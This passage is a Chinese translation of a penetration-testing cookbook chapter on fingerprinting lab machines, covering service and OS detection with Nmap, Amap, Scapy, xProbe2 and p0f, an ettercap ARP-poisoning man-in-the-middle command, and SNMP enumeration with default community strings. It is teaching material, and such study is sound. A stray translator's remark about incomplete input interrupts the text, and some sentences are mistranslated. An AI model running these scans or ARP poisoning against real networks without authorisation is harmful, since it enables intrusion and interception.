Banner on 172.16.36.135:5900/tcp : RFB 003.003\n
Banner on 172.16.36.135:6667/tcp : irc.Metasploitable.LAN NOTICE AUTH *** Looking up your hostname...\r\n
Banner on 172.16.36.135:6697/tcp : irc.Metasploitable.LAN NOTICE AUTH *** Looking up your hostname...\r\n
amap v5.4 finished at 2014-01-24 15:54:35
```

Amap 产生的标准输出包含一些不需要且冗余的信息，可以从输出中提取出来。具体来说，移除扫描的元数据、`Banner on` 短语以及在整个扫描过程中不变的 IP 地址可能会很有帮助。要移除扫描元数据，我们必须对输出进行 `grep`，寻找特定输出条目唯一且在扫描元数据描述中的短语。为了做到这一点，我们可以 `grep` 单词 `on`：

```
root@KaliLinux:~# amap -B 172.16.36.135 1-65535 | grep "on"
Banner on 172.16.36.135:22/tcp : SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1\n
Banner on 172.16.36.135:21/tcp : 220 (vsFTPd 2.3.4)\r\n
Banner on 172.16.36.135:25/tcp : 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)\r\n
Banner on 172.16.36.135:512/tcp : Where are you?\n
Banner on 172.16.36.135:1524/tcp : root@metasploitable/#
Banner on 172.16.36.135:2121/tcp : 220 ProFTPD 1.3.1 Server (Debian) [ffff172.16.36.135]\r\n
Banner on 172.16.36.135:3306/tcp : >\n5.0.51a-3ubuntu5
Banner on 172.16.36.135:5900/tcp : RFB 003.003\n
Banner on 172.16.36.135:6697/tcp : irc.Metasploitable.LAN NOTICE AUTH *** Looking up your hostname...\r\n
```

通过对输出进行处理，可以从输出中提取 `Banner on` 短语和在整个扫描过程中保持不变的 IP 地址。我们可以通过 `cut` 冒号和 `on` 单词来提取这些：

```
root@KaliLinux:~# amap -B 172.16.36.135 1-65535 | grep "on" | cut -d ":" -f 2
172.16.36.135:22/tcp : SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1\n
172.16.36.135:21/tcp : 220 (vsFTPd 2.3.4)\r\n
172.16.36.135:25/tcp : 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)\r\n
172.16.36.135:512/tcp : Where are you?\n
172.16.36.135:1524/tcp : root@metasploitable/#
172.16.36.135:2121/tcp : 220 ProFTPD 1.3.1 Server (Debian) [ffff172.16.36.135]\r\n
172.16.36.135:3306/tcp : >\n5.0.51a-3ubuntu5
172.16.36.135:5900/tcp : RFB 003.003\n
172.16.36.135:6697/tcp : irc.Metasploitable.LAN NOTICE AUTH *** Looking up your hostname...\r\n
```


`80/tcp open http Apache httpd 2.2.8 ((Ubuntu) DAV/2)`

`111/tcp open rpcbind 2 (RPC #100000)`
`139/tcp open netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)`
`445/tcp open netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)`
`512/tcp open exec netkit-rsh rexecd`
`513/tcp open login?`
`514/tcp open tcpwrapped`

### 指纹识别

`1099/tcp open rmiregistry GNU Classpath grmiregistry`
`1524/tcp open ingreslock?`
`2049/tcp open nfs 2-4 (RPC #100003)`
`2121/tcp open ftp ProFTPD 1.3.1`
`3306/tcp open mysql MySQL 5.0.51a-3ubuntu5`
`5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7`
`5900/tcp open vnc VNC (protocol 3.3)`
`6000/tcp open X11 (access denied)`
`6667/tcp open irc Unreal ircd`
`8009/tcp open ajp13 Apache Jserv (Protocol v1.3)`
`8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1`

`MAC Address: 00:0C:29:3D:84:32 (VMware)`
`Service Info: Hosts: metasploitable.localdomain, localhost,`
`irc.Metasploitable.LAN; OSs: Unix, Linux; CPE:`
`cpe:/o:linux:linux_kernel`

`服务检测完成。请在 http://nmap.org/submit/ 报告任何不准确的结果。`

`Nmap done: 1 IP address (1 host up) scanned in 161.49 seconds`

## 工作原理…

Nmap 服务识别会发送一系列全面的探测请求，然后对这些请求的响应进行分析，尝试根据服务唯一的指纹和预期行为来识别服务。此外，你可以在服务识别输出的底部看到 Nmap 依赖于用户的反馈，以确保其服务指纹库的持续可靠性。

## 使用 Amap 进行服务识别

Amap 是 `Nmap` 的表兄弟，专门设计用于识别网络服务而设计。在本特定的教程中，我们将解释如何使用 `Amap` 执行服务识别。

### 准备工作

要使用 `Amap` 执行服务识别，你需要一个运行着可以被探测和检查的网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关设置 `Metasploitable2` 的更多信息，请参阅`第 1 章` `入门`（Getting Started）中的 `安装 Metasploitable2` 教程。

### 如何操作…

要对单个端口执行服务识别，请带有 IP 地址和端口号运行 `Amap`：

```
root@KaliLinux:~# amap 172.16.36.135 80
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:26:13 -
APPLICATION MAPPING mode
Protocol on 172.16.36.135:80/tcp matches http
Protocol on 172.16.36.135:80/tcp matches http-apache-2
Unidentified ports: none.
amap v5.4 finished at 2013-12-19 05:26:19
```

`Amap` 还可以使用破折号表示法扫描连续的端口号。要执行此操作，请带有 IP 地址规范执行 `amap`，并指定范围内的第一个端口号、一个破折号，然后是范围内的最后一个端口号：

```
root@KaliLinux:~# amap 172.16.36.135 20-30
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:28:16 -
APPLICATION MAPPING mode
Protocol on 172.16.36.135:25/tcp matches smtp
Protocol on 172.16.36.135:21/tcp matches ftp
Protocol on 172.16.36.135:25/tcp matches nntp
Protocol on 172.16.36.135:22/tcp matches ssh
Protocol on 172.16.36.135:22/tcp matches ssh-openssh
Protocol on 172.16.36.135:23/tcp matches telnet
Unidentified ports: 172.16.36.135:20/tcp 172.16.36.135:24/tcp 172.16.36.135:26/tcp 172.16.36.135:27/tcp 172.16.36.135:28/tcp 172.16.36.135:29/tcp 172.16.36.135:30/tcp (total 7).
amap v5.4 finished at 2013-12-19 05:28:17
```

### 指纹识别

除了识别任何服务外，它还在输出末尾生成一个未识别端口的列表。此列表不仅包含了无法识别的运行服务，还包含了所有扫描的端口。当只扫描 10 个端口时，输出是可以接受的，但当扫描较大范围时会非常烦。要抑制未识别端口的信息可以使用 `-q` 参数：

```
root@KaliLinux:~# amap 172.16.36.135 1-100 -q
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:29:27 -
APPLICATION MAPPING mode
Protocol on 172.16.36.135:21/tcp matches ftp
Protocol on 172.16.36.135:25/tcp matches smtp
Protocol on 172.16.36.135:22/tcp matches ssh
Protocol on 172.16.36.135:22/tcp matches ssh-openssh
Protocol on 172.16.36.135:23/tcp matches telnet
Protocol on 172.16.36.135:80/tcp matches http
Protocol on 172.16.36.135:80/tcp matches http-apache-2
Protocol on 172.16.36.135:53/tcp matches dns
amap v5.4 finished at 2013-12-19 05:29:39
```

注意 `Amap` 会指示通用和更具体的指纹。在示例中，运行在端口 22 的服务被识别为匹配 `SSH` 指纹，但也匹配了更具体的 `openssh` 指纹。显示服务的横幅（banners）可能很有帮助。可以使用 `-b` 参数将横幅添加到输出中：

```
root@KaliLinux:~# amap 172.16.36.135 1-100 -qb
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:32:11 -
APPLICATION MAPPING mode
Protocol on 172.16.36.135:21/tcp matches ftp - banner: 220 (vsFTPd 2.3.4) 530 Login with USER and PASS.
Protocol on 172.16.36.135:22/tcp matches ssh - banner: SSH-2.0-OpenSSH_4.7p1-ubuntu8
Protocol on 172.16.36.135:22/tcp matches ssh-openssh - banner: SSH-2.0-OpenSSH_4.7p1-ubuntu8
Protocol on 172.16.36.135:25/tcp matches smtp - banner: 220 metasploitable.localdomain ESMTP (Postfix/Ubuntu) 221 2.7.0 Error can break rules, too. Goodbye.
Protocol on 172.16.36.135:23/tcp matches telnet - banner: #
Protocol on 172.16.36.135:80/tcp matches http - banner: HTTP/1.1 200 OK Date 26 Oct 2013 014818 GMT Server/2.2.8 (Ubuntu) DAV/2 X-Powered-By PHP/5.2.4-2ubuntu5.10 Content-Length 891 Connection close Content-Type: text/html <html><head><title>Metasploitable2 - Linux</title>
Protocol on 172.16.36.135:80/tcp matches http-apache-2 - banner: HTTP/1.1 200 OK Date 26 Oct 2013 014818 GMT Server/2.2.8 (Ubuntu) DAV/2 X-Powered-By PHP/5.2.4-2ubuntu5.10 Content-Length 891 Connection close Content-Type: text/html <html><head><title>Metasploitable2 - Linux</title>
Protocol on 172.16.36.135:53/tcp matches dns - banner: \f
```

如果对每个服务都使用所有可能的指纹探测，大量端口的服务识别或对所有 65536 个端口的全面扫描可能会花费异常的时间。为了加快服务识别扫描，可以使用 `-1` 参数在匹配到指纹后停止对特定服务的分析：

```
root@KaliLinux:~# amap 172.16.36.135 1-100 -q1
amap v5.4 (www.thc.org/thc-amap) started at 2013-12-19 05:33:16 -
APPLICATION MAPPING mode
Protocol on 172.16.36.135:21/tcp matches ftp
Protocol on 172.16.36.135:22/tcp matches ssh
Protocol on 172.16.36.135:25/tcp matches smtp
Protocol on 172.16.36.135:23/tcp matches telnet
Protocol on 172.16.36.135:80/tcp matches http
Protocol on 172.16.36.135:80/tcp matches http-apache-2
Protocol on 172.16.36.135:53/tcp matches dns
```
[/content]

*(注：由于你提供的待翻译文本在 `[content]` 标签中似乎不完整，我根据你提供的片段进行了翻译。由于指令要求“输出应包含在[content]...[/content]中”，我已将翻译后的内容包裹其中。但请注意原始文本在开头处截断了，因此我仅翻译了你提供的可见部分。)*

**纠正：** 重新检查你提供的“待翻译文本”，发现它从 `[content]` 开始了，但后面似乎没有提供全所有的原始文本。以下是基于你给出的文本片段的翻译：

如果你需要完整的翻译，请提供完整的原始文本。基于你提供的片段，翻译结果如下：

[content]
（由于你提供的文本不完整，此处为无法翻译内容。请提供完整文本。）。）


`Amap` 执行服务识别的底层原理与 `Nmap` 采用的原理相似。通过注入一系列探测请求，尝试获取唯一的响应，这些响应可用于识别特定端口上运行的服务软件及其版本。然而需要注意的是，虽然 `Amap` 是服务识别的替代方案，但它不像 `Nmap` 那样经过频繁更新和维护。因此，`Amap` 产生可靠结果的可能性较低。

# 指纹识别

## 使用 Scapy 识别操作系统

有许多技术可以尝试对通信的设备进行操作系统指纹识别。真正有效的操作系统识别工具是健壮的，并且会在分析中考虑大量的因素。

然而，可以使用 `Scapy` 单独分析这些因素中的任何一个。本配方将演示如何通过检查返回的 `TTL` 值使用 `Scapy` 进行操作系统识别。

### 准备工作

为了使用 `Scapy` 识别 `TTL` 响应中的差异，你需要一个运行 Linux/Unix 操作系统的远程系统以及另一个运行 Windows 操作系统的远程系统以供分析。在提供的示例中，使用了安装了 `Metasploitable2` 和 `Windows XP` 的系统。有关在本地实验室环境中设置系统的更多信息，请参考第 1 章“入门指南”中的`安装 Metasploitable2` 和 `安装 Windows Server` 配方。此外，本节还需要使用如 `VIM` 或 `Nano` 等文本编辑器向文件系统编写脚本。关于编写脚本的更多信息，请参考第 1 章“入门指南”中的`使用文本编辑器 (VIM and Nano)` 配方。

### 如何操作……

Windows 和 Linux/Unix 操作系统默认使用不同的 `TTL` 初始值。该因素可以尝试识别与你通信的操作系统类型。这些值总结在下表中：

| 操作系统 | 标准 TTL 值 |
| :--- | :--- |
| Microsoft Windows OS | 128 |
| Linux/Unix OS | 64 |

某些基于 Unix 的系统默认 `TTL` 值为 255；但为了练习的简单起见，我们将使用提供的值作为本配方中涉及的任务的前提。要分析远程系统响应的 `TTL` 值，我们首先需要构建一个请求。在本示例中，我们将使用互联网控制消息协议 (`ICMP`) 回显请求。为了发送 `ICMP` 请求，我们必须首先构建该请求的各个层。我们需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)
>>> linux = "172.16.36.135"
>>> windows = "172.16.36.134"
>>> i = IP()
>>> i.display()
[ IP ]
version= 4
ihl = None
tos = 0x0
len = None
id = 1
flags = 0
ttl = 64
proto = ip
chksum = None
src = 127.0.0.1
dst = 127.0.0.1
>>> i.dst = linux
>>> i.display()
[ IP ]
version= 4
ihl = None
tos = 0x0
len = None
id = 1
flags = 0
ttl = 64
proto = ip
chksum = None
src = 172.16.36.180
dst = 172.16.36.135
```

为了构建请求的 IP 层，我们应该将 IP 对象赋值给变量 `i`。通过调用 `display()` 函数，我们可以识别该对象的属性配置。默认情况下，发送地址和接收地址都设置为环回地址 `127.0.0.1`。可以通过更改目标地址，将 `i.dst` 设置为我们想要扫描的地址的字符串值来修改这些值。

再次调用 `display()` 函数，我们可以看到不仅目标地址已更新，`Scapy` 还会将源 IP 地址自动更新为默认接口。现在我们构建了 IP 层，应该继续 ICMP 层：

```
>>> ping = ICMP()
>>> ping.display()
[ ICMP ]
type= echo-request
code = 0
chksum = None
id = 0
seq = 0
```

为了构建请求的 ICMP 层，我们将使用与构建 IP 层相同的技术。在提供的示例中，`ICMP` 对象被赋值给变量 `ping`。如前所述，可以通过调用 `display()` 函数识别默认配置。默认情况下，`ICMP` 类型已设置为 `echo-request`。现在我们已经创建了 `IP` 和 `ICMP` 层，我们需要通过堆叠这些层来构建请求：

```
>>> request = i/ping
>>> request.display()
[ IP ]
version= 4
ihl = None
tos = 0x0
len = None
id = 1
flags = 0
ttl = 64
proto = ip
chksum = None
src = 172.16.36.180
dst = 172.16.36.135
[ ICMP ]
type= echo-request
code = 0
chksum = None
id = 0
seq = 0
```

可以通过正斜杠分隔变量来堆叠 `IP` 和 `ICMP` 层。然后可以将这些层设置为一个新变量，该变量将代表整个请求。然后可以调用 `display()` 函数查看请求的配置。请求构建完成后，可以将其传递给 `sr1` 函数，以便我们可以分析响应：

```
>>> ans = sr1(request)
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> ans.display()
[ IP ]
version= 4
ihl = 5
tos = 0x0
len = 28
id = 64067
flags = 0
ttl = 64
proto = icmp
chksum = 0xdf41
src = 172.16.36.135
dst = 172.16.36.180
[ ICMP ]
type= echo-reply
code = 0
chksum = 0xffff
id = 0
seq = 0
[ Padding ]
load=\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
```

这种请求可以在不独立构建和堆叠每一层的情况下完成。相反，可以直接调用函数并向它们传递适当的参数来使用单行命令：

```
>>> ans = sr1(IP(dst=linux)/ICMP())
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> ans
<IP version=4 ihl=5 tos=0x0 len=28 id=64068 flags= frag=0 ttl=64 proto=icmp chksum=0xdf40 src=172.16.36.135 dst=172.16.36.180 options=[] |<ICMP type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 |<Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'>
```

注意来自 Linux 系统的响应 `TTL` 值为 `64`。对 Windows 系统的 IP 地址进行相同的测试，并应注意响应 `TTL` 值的差异：

```
>>> ans = sr1(IP(dst=windows)/ICMP())
Begin emission:
Finished to send 1 packets.
Received 12 packets, got 1 answers, remaining 0 packets
>>> ans
<IP version=4 ihl=5 tos=0x0 len=28 id=24714 flags= frag=0 ttl=128 proto=icmp chksum=0x38fc src=172.16.36.134 dst=172.16.36.180 options=[] |<ICMP type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 |<Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'>
```

这种变变响应可以在 Python 中轻松测试：

```
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
```


输入 "help", "copyright", "credits" 或 "license" 获取更多信息。

>>> `from scapy.all import *`

234

第 4 章

警告: 未找到 IPv6 目的路由 ::（没有默认路由？）

>>> `ans = sr1(IP(dst="172.16.36.135")/ICMP())`
开始发送：
............完成发送 1 个包。
....
接收 18 个包，得到 1 个答案，剩余 0 个包
>>> `if int(ans[IP].ttl) <= 64:`
... print "Host is Linux"
... else:
... print "Host is Windows"
...
Host is Linux

>>> `ans = sr1(IP(dst="172.16.36.134")/ICMP())`
开始发送:
.......完成发送 1 个包。
....
接收 13 个包，得到 1 个答案，剩余 0 个包
>>> `if int(ans[IP].ttl) <= 64:`
... print "Host is Linux"
... else:
... print "Host is Windows"
...
Host is Windows

通过发送相同的请求，可以测试 TTL 值的整数等值以判断其是否小于或等于 64。如果是，我们可以假设该设备可能运行 Linux/Unix 操作系统。否则，如果该值小于或等于 64，我们可以假设该设备最可能运行 Windows 操作系统。整个过程可以使用可执行的 Python 脚本自动化：

```python
#!/usr/bin/python

from scapy.all import *
import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
import sys

if len(sys.argv) != 2:
    print "Usage - ./ttl_id.py [IP Address]"
    print "Example - ./ttl_id.py 10.0.0.5"
    sys.exit()

print "Example will perform ttl analysis to attempt to determine whether the system is Windows or Linux/Unix"

ip = sys.argv[1]
ans = sr1(IP(dst=str(ip))/ICMP(),timeout=1,verbose=0)

if ans == None:
    print "No response was returned"
elif int(ans[IP].ttl) <= 64:
    print "Host is Linux/Unix"
else:
    print "Host is Windows"
```

235

指纹识别

提供的 Python 脚本将接受一个单一参数，即要扫描的 IP 地址。根据返回响应的 TTL 值，脚本将对远程操作系统进行最佳推测。可以通过 `chmod` 更改文件权限，然后直接从写入脚本的目录调用它：`root@KaliLinux:~# chmod 777 ttl_id.py`

`root@KaliLinux:~# ./ttl_id.py`
Usage - ./ttl_id.py [IP Address]
Example - ./ttl_id.py 10.0.0.5
Example will perform ttl analysis to attempt to determine whether the system is Windows or Linux/Unix
`root@KaliLinux:~# ./ttl_id.py 172.16.36.134`
Host is Windows

`root@KaliLinux:~# ./ttl_id.py 172.16.36.135`
Host is Linux/Unix

### 工作原理……

Windows 操作系统传统上传输网络流量的起始 TTL 值为 128，而 Linux/Unix 操作系统传统上传输网络流量的起始 TTL 值为 64。通过假设从一个设备到另一个设备的跳数不超过 64 次，可以安全地假设 Windows 系统将传输 TTL 值在 65 到 128 之间的回复，而 Linux/Unix 系统将传输 TTL 范围在 1 到 64 之间的回复。当扫描系统和远程目标之间存在拦截请求并重新封装包的设备时，这种识别方法可能会变得不再那么有用。

236

第 4 章

### 使用 Nmap 进行操作系统识别

虽然 TTL 分析对识别远程操作系统有所帮助，但更全面的解决方案更为理想。Nmap 具有远超简单 TTL 分析的操作系统识别功能。本特定教程将演示如何使用 Nmap 基于探测-响应分析进行操作系统识别。

### 准备工作

要使用 Nmap 进行操作系统识别，你需要一个运行着可以探测和检查的网络服务的远程系统。在提供的示例中，使用了 Windows XP 安装版来执行此任务。有关设置 Windows 系统的更多信息，请参阅第 1 章*入门*中的*安装 Windows Server*配方。

### 如何操作……

要执行 Nmap 操作系统识别扫描，调用 Nmap 时应指定 IP 地址和 `-O` 选项：

`root@KaliLinux:~# nmap 172.16.36.134 -O`

```
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-19 10:59 EST
Nmap scan report for 172.16.36.134
Host is up (0.00044s latency).
Not shown: 991 closed ports
PORT STATE SERVICE
22/tcp open ssh
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
4444/tcp open krb524
8080/tcp open http-proxy
8081/tcp open blackice-icecap
15003/tcp open unknown
15004/tcp open unknown
MAC Address: 00:0C:29:18:11:FB (VMware)
Device type: general purpose
Running: Microsoft Windows XP|2003
OS CPE: cpe:/o:microsoft:windows_xp::sp2:professional
cpe:/o:microsoft:windows_server_2003
OS details: Microsoft Windows XP Professional SP2 or Windows Server 2003
Network Distance: 1 hop
OS detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.67 seconds
```

在提供的输出中，Nmap 将指示运行的操作系统，或者提供几个可能的操作系统列表。在这种情况下，Nmap 指出远程系统运行的是 Windows XP 或 Windows Server 2003。

### 工作原理……

Nmap 操作系统识别会发送系列全面的探测请求，然后分析这些请求的响应，尝试根据特定特定的签名和预期行为来识别底层操作系统。此外，你可以在操作系统识别输出的底部看到 Nmap 依赖用户的反馈，以确保其服务指纹的持续可靠性。

### 使用 xProbe2 进行操作系统识别

xProbe2 是一个为了识别远程操作系统设计的全面工具。本特定教程将演示如何使用 xProbe2 基于探测-响应分析进行操作系统识别。

### 准备工作

要使用 xProbe2 进行操作系统识别，你需要一个运行着可以探测和检查的网络服务的远程系统。在提供的示例中，使用了 Metploitable2 实例来执行此任务。有关设置 Metploitable2 的更多信息，请参阅第 1 章*入门*中的*安装 Metploitable2*配方。

238

第 4 章

### 如何操作……

要使用 xProbe2 对远程系统执行操作系统识别扫描，需要向程序传递一个单一参数，即要扫描系统的 IP 地址：

`root@KaliLinux:~# xprobe2 172.16.36.135`

```
Xprobe2 v.0.3 Copyright (c) 2002-2005 fyodor@o0o.nu, ofir@sys.com, meder@o0o.nu
[+] Target is 172.16.36.135
[+] Loading modules.
[+] Following modules are loaded:
[x] [1] ping:icmp_ping - ICMP echo discovery module
[x] [2] ping:tcp_ping - TCP-based ping discovery module
[x] [3] ping:udp_ping - UDP-based ping discovery module
[x] [4] infogather:ttl_calc - TCP and UDP based TTL distance calculation
[x] [5] infogather:portscan - TCP and UDP PortScanner
[x] [6] fingerprint:icmp_echo - ICMP Echo request fingerprinting module
[x] [7] fingerprint:icmp_tstamp - ICMP Timestamp request fingerprinting module
[x] [8] fingerprint:icmp_amask - ICMP Address mask request fingerprinting module
[x] [9] fingerprint:icmp_port_unreach - ICMP port unreachable fingerprinting module
[x] [10] fingerprint:tcp_hshake - TCP Handshake fingerprinting module
```


# [x] [11] fingerprint:tcp_rst - TCP RST 指纹模块
# [x] [12] fingerprint:smb - SMB 指纹模块
# [x] [13] fingerprint:snmp - SNMPv2c 指纹模块
# [+] 已注册 13 个模块
# [+] 正在初始化扫描引擎
# [+] 正在运行扫描引擎

## 扫描引擎与模块状态
`[+] 正在初始化扫描引擎`
`[+] 正在运行扫描引擎`
`[-] ping:tcp_ping module: 172.16.36.135 上无知的关闭/开放 TCP 端口。模块测试失败`
`[-] ping:udp_ping module: 172.16.36.135 上无知的关闭/开放 UDP 端口。模块测试失败`

## 指纹识别
239
`[-] 无距离计算。172.16.36.135 似乎已死亡或无未知端口`
`[+] 主机 172.16.36.135 处于在线（猜测概率: 50%）`
`[+] 目标 172.16.36.135 存活。往返时间: 0.00112 秒`
`[+] 选定的安全往返时间值为: 0.00225 秒`
`[-] fingerprint:tcp_hshake 模块执行中止（无已知开放 TCP 端口）`
`[-] fingerprint:smb 需要 TCP 端口 139 或 445 运行`
`[-] fingerprint:snmp: 需要开放 UDP 端口 161`

### 操作系统猜测
`[+] 主要猜测：`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.22" (猜测概率: 100%）`

`[+] 其他猜测：`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.23" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.21" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.20" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.19" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.24" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.25" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.26" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.27" (猜测概率: 100%）`
`[+] 主机 172.16.36.135 运行操作系统: "Linux Kernel 2.4.28" (猜测概率: 100%）`

`[+] 正在清理扫描引擎`
`[+] 模块已取消初始化`
`[+] 执行完成。`

该工具的输出可能具有误导性。有多个不同的 Linux 内核指示特定操作系统的概率为 100%。显然，这是不可能的。xProbe2 实际上是将此百分比基于在目标系统中确认的与该操作系统相关的可能特征数量。遗憾的是，从此输出可以看出，特征的细粒度不足以区分微版本。尽管如此，该工具可以作为识别目标操作系统的非常有用的辅助资源。

240
# 第 4 章：工作原理……
定义 xProbe2 如何识别远程操作系统的底层原理与 Nmap 使用的原理相同。xProbe2 操作系统识别通过发送一系列全面的探测请求，然后分析对这些请求的响应，尝试根据特定操作系统的特征和预期行为来识别底层操作系统。

## 使用 p0f 进行被动操作系统识别
`p0f` 是一个为了识别远程操作系统而开发的全面工具。该工具与这里讨论的其他工具不同，因为它被设计用于被动地执行操作系统识别，而不直接与目标系统交互。本特定配方将演示如何使用 `p0f` 执行被动操作系统识别。

### 准备工作
要使用 `p0f` 进行操作系统识别，你需要一个运行网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关设置 `Metasploitable2` 的更多信息，请参考*第 1 章**入门*中的*安装 Metasploitable2*配方。

### 如何操作……
如果你直接从命令行执行 `p0f` 而不进行任何先的环境设置，你会发现，除非你直接与网络上的某些系统交互，否则它不会提供太多信息：

```
root@KaliLinux:~# p0f
p0f - passive os fingerprinting utility, version 2.0.8
(C) M. Zalewski <lcamtuf@dione.cc>, W. Stearns <wstearns@pobox.com>
p0f: listening (SYN) on 'eth1', 262 sigs (14 generic, cksum0F1F5CA2), rule: 'all'.
```

这种信息的缺失证明了一个事实：与我们讨论的其他工具不同，`p0f` 不会主动探测设备以确定其操作系统。相反，它只是静静地监听。我们可以在另一个终端中运行 `Nmap` 扫描来生成流量，但这违背了被动操作系统识别器的整个初衷。相反，我们需要一种方法将流量路由通过我们的本地接口进行分析，以便对其进行被动分析。

241
指纹识别
Ettercap 提供了一个极佳的解决方案，提供了中毒 ARP 缓存和创建中间人场景的能力。要让流量通过你的本地接口，你需要对这两个系统进行中毒：

```
root@KaliLinux:~# ettercap -M arp:/172.16.36.1/172.16.36.135 -T -w output.pcap
```

在提供的示例中，`ettercap` 在命令行执行。`-M` 选项定义由 `arp` 参数指定的模式。`-T` 选项指示以文本模式操作，`-w` 选项用于指定导出捕获的文件。一旦你建立了中间人（MITM），你可以在另一个终端中再次执行 `p0f`。假设两个中毒的主机正在通信，你应该看到以下内容：

```
root@KaliLinux:~# p0f
...
```


所有通过 `p0f` 监听器的数据包都会被标记为 `UNKNOWN` 或与特定的操作系统签名关联。一旦完成充分分析，您应该通过输入 `q` 来优雅地关闭 `Ettercap` 文本界面。这将对受害者进行重新 ARP，以防止发生服务中断：

**正在关闭文本界面...**

**ARP 毒化已禁用。**

**正在对受害者进行重新 ARP...**

**统一嗅探已停止。**

243

### 指纹识别

### 工作原理……
ARP 毒化涉及利用免费 ARP 响应来欺骗受害者系统，使其认为目标 IP 地址与中间人攻击（MITM）系统的 MAC 地址关联。

MITM 系统将接收来自两个受毒系统的流量，并将流量转发到目标接收者。这将允许 MITM 系统嗅探线缆上的所有流量。通过分析这些流量的独特行为和特征，`p0f` 可以在不直接探测设备响应的情况下，识别网络上设备的操作系统。

### 使用 Onesixtyone 进行 SNMP 分析

Onesixtyone 是一种 SNMP 分析工具，以其 SNMP 运行的 UDP 端口命名。它是一个非常简单的 SNMP 扫描器，仅请求任何指定 IP 地址的系统描述值。

### 准备工作
要使用 Onesixtyone 执行 SNMP 分析，您需要启用 SNMP 且可以被探测和检查的设备。在提供的示例中，使用了安装 Windows XP 来执行此任务。有关设置 Windows 系统的更多信息，请参阅第 1 章中的`安装 Windows Server` 教程。`入门指南`。

### 如何操作……
这些信息可用于准确识别目标设备的操作系统指纹。使用 Onesixtyone 时可以将目标 IP 地址和团体字符串（community string）作为参数：

```
root@KaliLinux:~# onesixtyone 172.16.36.134 public
Scanning 1 hosts, 1 communities
172.16.36.134 [public] Hardware: x86 Family 6 Model 58 Stepping 9
AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600
Uniprocessor Free)
```

在提供的示例中，使用团体字符串 `public` 来查询 `172.16.36.134` 设备的系统描述。这是各种网络设备最常用的默认团体字符串之一。如输出所示，远程主机用一个标识其身份的描述字符串响应了查询。

244

*第 4 章*

### 工作原理……
SNMP 是一种用于管理网络设备并促进这些设备之间信息共享的协议。在企业网络环境中，使用该协议通常是必要的；然而，系统管理员经常未能修改用于在 SNMP 设备间共享信息的默认团体字符串。在这种情况下，可以通过恰当猜测这些设备使用的默认团体字符串来收集有关网络设备的信息。

### 使用 SNMPwalk 进行 SNMP 分析

SNMPwalk 是一种更复杂的 SNMP 扫描器，可从具有可猜测 SNMP 团体字符串的设备中收集大量信息。`SNMPwalk` 通过循环一系列请求，从服务中收集尽可能的信息。

### 准备工作
要使用 `SNMPwalk` 执行 SNMP 分析，您需要启用 SNMP 且可以被探测和检查的设备。在提供的示例中，使用了安装 Windows XP 来执行此任务。有关设置 Windows 系统的更多信息，请参阅第 1 章中的`安装 Windows Server` 教程。`入门指南`。

### 如何操作……
要执行 `SNMPwalk`，应向工具传递一系列参数，包括要分析的系统 IP 地址、使用的团体字符串以及系统采用的 SNMP 版本：

```
root@KaliLinux:~# snmpwalk 172.16.36.134 -c public -v 2c
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: x86 Family 6 Model 58
Stepping 9 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1
(Build 2600 Uniprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (56225) 0:09:22.25
iso.3.6.1.2.1.1.4.0 = ""
iso.3.6.1.2.1.1.5.0 = STRING: "DEMO-72E8F41CA4"
iso.3.6.1.2.1.1.6.0 = ""
iso.3.6.1.2.1.1.7.0 = INTEGER: 76
iso.3.6.1.2.1.2.1.0 = INTEGER: 2
```

245

*指纹识别*

```
iso.3.6.1.2.1.2.2.1.1.1 = INTEGER: 1
